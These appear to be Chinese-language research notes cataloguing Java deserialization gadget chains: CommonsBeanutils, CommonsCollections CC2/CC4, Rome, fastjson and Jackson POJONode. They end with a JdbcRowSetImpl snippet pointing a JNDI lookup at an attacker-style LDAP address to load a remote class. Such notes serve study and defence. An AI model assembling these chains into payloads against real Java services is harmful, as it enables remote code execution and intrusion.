

## compare to getter

### CB.BeanComparator

CB 链，调用 object 的指定 getter 方法

```txt
PriorityQueue#readObject
	PriorityQueue#heapfy
		PriorityQueue#siftDownUsingComparator
			BeanComparator#compare (bridge)
				PropertyUtils#getProperty
					TemplatesImpl.getOutputProperties (or other getter) (sink)
```

## compare to transform

### CC.TransformingComparator

可以指定 transformer 为 InvokerTransformer/InstantiateTransformer，分别构成 CC2、CC4

```txt
PriorityQueue#readObject
	PriorityQueue#heapfy
		PriorityQueue#siftDownUsingComparator
			TransformingComparator#compare（bridge）
				transformer#transform
```

## toString to getter

### Rome ToStringBean

```txt
getter
at com.sun.syndication.feed.impl.ToStringBean.toString
at com.sun.syndication.feed.impl.EqualsBean.beanHashCode
at java.util.HashMap.hash
at java.util.HashMap.readObject
```

详见 [Rome 反序列化](其他一些反序列化.md#Rome)

### fastjson JSONArray

JSONArray(继承自 JSON)的 toString 方法，在 write 的时候会调用 getter



### Jackson POJONode

依赖:

```xml
<dependency>
    <groupId>com.fasterxml.jackson.core</groupId>
    <artifactId>jackson-databind</artifactId>
    <version>2.13.3</version>
</dependency>
```

`spring-boot-starter-web` 中自带这个。因此在 springboot 应用中可以用这个调用 getter。

```txt
 badAttribute... # readObject
 POJONode # toString
 InternalNodeMapper # nodeToString
 ObjectWriter # writeValueAsString (templates)
 proxy.invoke ...
 TemplatesImpl # getOutputProperties
```


## setter to JNDI

`JdbcRowSetImpl#setAutoCommit`

```
JdbcRowSetImpl.setAutoCommit
JdbcRowSetImpl.connect
InitialContext.lookup(dataSourceName)
```

lookup的参数可以通过`setDataSourceName`设置

```java
JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
jdbcRowSet.setDataSourceName("ldap://localhost:1389/#Calc");
jdbcRowSet.setAutoCommit(true);
```

